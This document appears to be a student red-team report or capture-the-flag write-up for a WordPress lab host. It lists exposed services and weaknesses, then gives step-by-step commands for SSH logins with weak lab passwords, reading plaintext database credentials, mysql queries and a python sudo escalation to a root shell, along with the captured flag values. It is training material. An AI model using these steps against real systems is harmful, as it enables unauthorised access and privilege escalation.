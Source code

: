 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![nmapscan](./Images/nmap_scan.jpg)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - wpscan enumerate usernames
	- running wpscan was able to enumerate usernames for the target system.
     (insert wpscan screenshots)

  - SSH with password.
	- Users are able to SSH with a password instead of requiring an SSH key.
	- User michael had a weak password(Brute forced with HYDRA)
	(insert hydra screenshot)

  - Database credentials for wordpress are written in plain text.
	- Database credentials were stored in /var/www/html/
	- This allowed me to access the mysql database and extract confidential information such as password hashes.

  - python can be run with sudo privilages.
	- The user steven has the ability to run python with sudo.
	- Running python with sudo can execute arbitrary code on the system to get a shell with root access.


_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cd /var`
	- `grep -rnw ./ -e flag1 2>/dev/null`

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to cat the flag 2 file found in /var/www.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cd /var/www`
	- `cat flag2.txt`

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of wp_posts in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cat /var/www/html/wp_config.php`
	- `mysql -u root -p` (password R@v3nSecurity)
	- `USE wordpress;`
	- `USE wp_posts;`
	- `SELECT * FROM wp_posts;`

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using john the ripper, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
     - Commands run:
	- `ssh steven@192.168.1.110 (password pink84)`
	- `python -c 'import os; os.system("/bin/sh")'`
	- `cat /root/flag4.txt`
